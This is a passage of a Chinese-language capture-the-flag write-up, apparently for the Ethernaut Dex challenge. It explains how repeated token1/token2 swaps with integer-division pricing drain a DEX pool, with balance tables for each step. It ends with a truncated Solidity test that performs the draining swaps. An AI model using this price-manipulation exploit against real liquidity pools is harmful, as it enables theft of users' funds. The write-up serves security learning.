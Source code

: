下面我实际操作一下，我们将把所有token1交换为token2。然后将我们的所有token2交换为token1，再将我们的所有token1交换为token2，依此类推。

以下是价格历史和余额的变化情况。最初，
      DEX       |      player  
token1 - token2 | token1 - token2
----------------------------------
  100     100   |   10      10               
  
交换全部之后token1：
      DEX       |        player  
token1 - token2 | token1 - token2
----------------------------------
  100     100   |   10      10
  110     90    |   0       20                

请注意，此时汇率已调整。现在，兑换 20 token2应该得到20 * 110 / 90 = 24.44..。但由于除法结果为整数，我们得到 24 token2。价格再次调整。再次交换。
      DEX       |        player  
token1 - token2 | token1 - token2
----------------------------------
  100     100   |   10      10
  110     90    |   0       20    
  86      110   |   24      0    

当我们在 token1 和 token2 之间来回兑换时, 可以看到每次能拿到的代币数量其实是在变多的, 这样多倒几次最终就能将 dex 池内某一类型的代币搬空
继续交换我们将得到：
      DEX       |        player  
token1 - token2 | token1 - token2
----------------------------------
  100     100   |   10      10
  110     90    |   0       20    
  86      110   |   24      0    
  110     80    |   0       30    
  69      110   |   41      0    
  110     45    |   0       65   

现在，在上面最后一次交换中，我们得到了 65 token2，这足以消耗掉全部 110 token1！通过简单的计算，只需要 45token2就可以获得全部 110 token1。  
      DEX       |        player  
token1 - token2 | token1 - token2
----------------------------------
  100     100   |   10      10
  110     90    |   0       20    
  86      110   |   24      0    
  110     80    |   0       30    
  69      110   |   41      0    
  110     45    |   0       65   
  0       90    |   110     20

## 解答

攻击合约实现

```javascript
    function testattacker() public {
        vm.startPrank(player1, player1);

        token1.approve(address(instance), 2 ** 256 - 1);
        token2.approve(address(instance), 2 ** 256 - 1);

        swapMax(token1, token2);
        swapMax(token2, token1);
        swapMax(token1, token2);
        swapMax(token2, token1);
        swapMax(token1, token2);

        instance.swap(address(token2), address(token1), 45);
```